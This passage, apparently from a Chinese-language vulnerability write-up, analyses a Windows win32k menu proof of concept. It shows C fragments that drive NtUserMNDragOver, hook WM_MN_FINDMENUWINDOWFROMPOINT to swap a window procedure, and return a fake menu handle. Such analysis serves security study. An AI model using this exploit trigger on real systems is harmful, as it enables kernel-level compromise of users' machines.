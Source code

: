 ```
TrackPopupMenuEx(hMenuRoot, 0, 0, 0, hWndMain, NULL);

MSG msg = `{` 0 `}`;
while (GetMessageW(&amp;msg, NULL, 0, 0))
`{`
    TranslateMessage(&amp;msg);
    DispatchMessageW(&amp;msg);

    if (iMenuCreated &gt;= 1) `{`
        bOnDraging = TRUE;
        pfnNtUserMNDragOver(&amp;pt, buf);
        break;
    `}`
`}`
```

```
LRESULT CALLBACK WindowHookProc(INT code, WPARAM wParam, LPARAM lParam)
`{`
    tagCWPSTRUCT *cwp = (tagCWPSTRUCT *)lParam;
    if (!bOnDraging) `{`
        return CallNextHookEx(0, code, wParam, lParam);
    `}`
    if ((cwp-&gt;message == WM_MN_FINDMENUWINDOWFROMPOINT))`{`
        bIsDefWndProc = FALSE;
        printf("[*] HWND: %p \n", cwp-&gt;hwnd);
        SetWindowLongPtr(cwp-&gt;hwnd, GWLP_WNDPROC, (ULONG64)SubMenuProc);
    `}`
    return CallNextHookEx(0, code, wParam, lParam);
`}`
```

```
VOID CALLBACK DisplayEventProc(HWINEVENTHOOK hWinEventHook,DWORD event,HWND hwnd,LONG idObject,LONG idChild,DWORD idEventThread,DWORD dwmsEventTime)
`{`
    switch (iMenuCreated)
    `{`
    case 0:
        SendMessageW(hwnd, WM_LBUTTONDOWN, 0, 0x00050005);
        break;
    case 1:
        SendMessageW(hwnd, WM_MOUSEMOVE, 0, 0x00060006);
        break;
    `}`
    printf("[*] MSG\n");
    iMenuCreated++;
`}`
```

poc的流程已经分析完了，但是还是有部分的代码没有进入，比如 WindowHookProc 的 cwp-&gt;message == WM_MN_FINDMENUWINDOWFROMPOINT 分支，该分支通过 SetWindowLongPtrA 来改变窗口的属性。把默认的过程函数替换为SubMenuProc，SubMenuProc函数在收到 WM_MN_FINDMENUWINDOWFROMPOINT 消息后把过程函数替换为默认的过程函数，然后返回我们自定义的FakeMenu的句柄。
